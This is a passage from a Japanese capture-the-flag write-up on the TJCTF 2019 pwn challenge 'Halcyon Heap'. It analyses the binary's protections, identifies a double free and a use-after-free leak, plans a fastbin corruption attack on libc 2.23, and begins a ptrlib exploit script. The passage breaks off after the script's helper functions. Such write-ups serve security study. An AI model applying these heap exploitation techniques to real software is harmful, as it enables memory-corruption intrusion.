 # [pwn 200pts] Halcyon Heap - TJCTF 2019
64bitで全部有効です。Heap系かな？
```
$ checksec d87f3952b7283e14cb5507d52436f8ee9af762a89edf2d9d9b8a805132ec2d2a_halcyon_heap
[*] 'd87f3952b7283e14cb5507d52436f8ee9af762a89edf2d9d9b8a805132ec2d2a_halcyon_heap'
    Arch:	64 bits (little endian)
    NX:		NX enabled
    SSP:	SSP enabled (Canary found)
    RELRO:	Full RELRO
    PIE:	PIE enabled
```
IDAで解析しましょう。
領域をmallocしてデータを書き込む`sice_deet`は次のような感じです。

- 生成できるdeetは0x15個まで(`num < 0x16`)
- サイズは0x78バイトまで
- `deet_list[num] = malloc(size);`
- `size_list[num] = size;`
- `read(0, deet_list[num], size);`
- numに1足す

特に変わった点はありません。
次に指定したインデックスのdeetを出力する`observe_deet`は次のような感じです。

- indexは0x15以下しか指定できない
- `write(1, deet_list[index], size_list[index]);`

無条件で出力するので削除後でも`size_list`が0になっていなければヒープのアドレスとかをリークできそうです。
最後に指定したインデックスのdeetを削除する`destroy_deet`は次のような感じです。

- indexは0x15以下しか指定できない
- `free(deet_list[index]);`
- numは減らない

double freeの脆弱性がありますね。
libcが配布されているのでハッシュ値からバージョンを調べたところ、libc-2.23.soということが分かりました。
残念ながら私の好きなtcacheは実装されていないバージョンなので、fastbinを使いましょう。

イメージとしてはfastbinに2つ繋げてobserveでヒープのアドレスをリークし、その後double freeでfastbin corruption attackをする感じでしょうか。
まずはヒープのアドレスを取得しましょう。

```python
from ptrlib import *

def sice_deet(size, data):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.recvuntil("> ")
    sock.sendline(str(size))
    sock.recvuntil("> ")
    sock.send(data)

def observe_deet(index):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("> ")
    sock.sendline(str(index))
    return sock.recvline().rstrip()

def destroy_deet(index):
    sock.recvuntil("> ")
    sock.sendline("3")
    sock.recvuntil("> ")
    sock.sendline(str(index))

sock = Process("./d87f3952b7283e14cb5507d52436f8ee9af762a89edf2d9d9b8a805132ec2d2a_halcyon_heap")
```